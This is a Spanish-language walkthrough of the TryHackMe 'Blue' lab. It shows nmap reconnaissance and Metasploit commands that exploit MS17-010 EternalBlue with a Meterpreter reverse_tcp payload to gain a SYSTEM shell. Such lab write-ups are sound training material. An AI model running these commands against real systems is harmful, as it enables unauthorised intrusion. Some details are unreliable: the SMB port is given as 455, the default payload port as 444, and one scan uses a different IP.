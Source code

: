 ```yaml
---
title : Máquina|<font color="#5d9b9b">Blue</font>
published : True
---
```


* <p>Nombre : Blue</p>
* <p>Url : <a href="https://tryhackme.com/room/blue">Blue</a></p>
>

<h2><font color="white"><center># blue</center></font></h2>
* <p>Empezaremos con el reconocimiento de la maquina</p>
> ping -c 1 10.10.157.254
>
<img src="/imgs/blue/blue0.jpg"/>
* <p>Vemos que en la imagen el ttl es de 127 lo que indica que es una maquina windows, ahora vemos que puertos están abiertos.</p>
> nmap --min-rate 5000 -Pn -sS --open 10.10.157.254 -o allports
>
<img src="/imgs/blue/blue1.jpg"/>
* <p>tiene el puerto smb abierto <font color="gold">455</font> veremos si tiene vulnerabilidades, con nmap.</p>
> nmap --script smb-vuln* 10.10.127.254
>
<img src="/imgs/blue/blue2.jpg"/>
* <p>Al paracer es vulnerable a <font color="yellow">( ms17-010 EternalBlue )</font>, ahora explotemos con <font color="gold">msfconsole</font>, usamos el exploit EternalBlue </p>
> use exploit/windows/smb/ms17_010_eternalblue
>
<img src="/imgs/blue/blue3.jpg"/>
* <p>Ahora indicamos el payload que queremos ejecutar una vez ganado acceso a la maquina.</p>
> set payload windows/meterpreter/reverse_tcp
>
<img src="/imgs/blue/blue4.jpg"/>
* <p>Indicamos la ip de la maquina victima con <font color="gold">set rhosts</font>.</p>
>
<img src="/imgs/blue/blue5.jpg"/>
* <p>Ahora indicamos nuestra ip tun0 de nuestra vpn de tryHackMe.</p>
>
<img src="/imgs/blue/blue6.jpg"/>
* <p>Seguidamente cambiamos el puerto 444 que viene por defecto para el payload, en caso de que haya un firewall indicado para cerrar conecciones
por el puerto 444.</p>
>
<img src="/imgs/blue/blue7.jpg"/>
* <p>Seguidamente ejecutamos <font color="red">exploit</font> para iniciar el ataque.</p>
>
<img src="/imgs/blue/blue8.jpg"/>
* <p>Y listo si ejecutas el comando Shell, y pones whoami seras autority system.</p>
* <p>Ok maquina vulnerada</p>

